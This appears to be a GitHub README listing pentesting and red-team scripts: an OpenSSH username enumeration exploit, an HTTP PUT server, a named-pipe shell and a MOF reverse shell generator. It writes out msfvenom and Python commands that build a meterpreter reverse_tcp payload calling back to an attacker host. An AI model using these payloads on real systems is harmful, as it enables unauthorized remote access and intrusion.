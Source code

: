 A collection of some useful script for pentesters or red teamers


## [sshUsernameEnumExploit.py](https://github.com/xax007/Scripts/tree/master/CVE-2018-15473-sshUsernameEnumExploit)

OpenSSH < 7.7 username enumeration exploit  
OpenSSH 版本小于7.7 用户名枚举漏洞利用工具 

## HTTPPutServer.py

A simple HTTP PUT Server write by python  

用 Python 写的 HTTP PUT Server

## web-rce-named-pipe-shell.py

A named pipe tty shell via mkfifo.

## generate-mof-reverse-shell-file.py

This python script can generate a MOF reverse shell file.

First step, generate vbs reverse shell shellcode via `msfvenom`

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e generic/none -f vbs -o reverse_shell.vbs
```

then generate MOF file: 

```
$ python3 generate-mof-reverse-shell-file.py reverse_shell.vbs > reverse_shell.mof
```
